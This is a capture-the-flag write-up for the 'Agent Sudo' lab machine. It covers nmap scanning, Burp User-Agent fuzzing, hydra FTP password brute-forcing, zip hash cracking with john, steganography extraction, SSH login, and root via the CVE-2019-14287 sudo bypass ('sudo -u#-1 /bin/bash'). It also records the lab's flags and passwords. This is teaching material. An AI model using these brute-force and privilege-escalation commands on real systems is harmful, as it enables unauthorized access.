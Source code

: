 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	$ export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	$ export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

		'''
		21/tcp open  ftp     vsftpd 3.0.3
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			http-server-header: Apache/2.4.29 (Ubuntu)
			http-title: Annoucement
		'''

---------------------
	Visiting Site
---------------------

'''
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
'''
//Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


---Possible Users---

- Chris
- R?
- J?


# Intrusion #

---ChrisFTP---

- ftp $IP
	Name: chris
	Pass: crystal

ftp > ls

	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
	
ftp > mget To_agentJ cute-alien.jpg cutie.png
ftp > exit

//all right so we've got all Chris' files, let's see what's headers

- To_agentJ.txt	

'''
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
'''

//oh okay stenography

---Stenography---

- binwalk cutie.png -e
- ls _cutie.png.extracted

'''
365  365.zlib  8702.zip  To_agentR.txt
'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

'''
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

'''
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
'''


---SSH---

- ssh james@$IP
	pass: hackerrules!

- ls

'''
Alien_autospy.jpg  user_flag.txt
'''

**Flag Found**
	/home/james/user_flag.txt: <b03d975e8c92a7c04146cfa7a5a313c7>



#PrivEsc

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
	"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"
	CVE: 2019-14287
	"sudo -u#-1 /bin/bash"

- root gain

**Flag Found**
	/root/root.txt: <b53a02f55b57d4439e3341834d70c062>



# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!

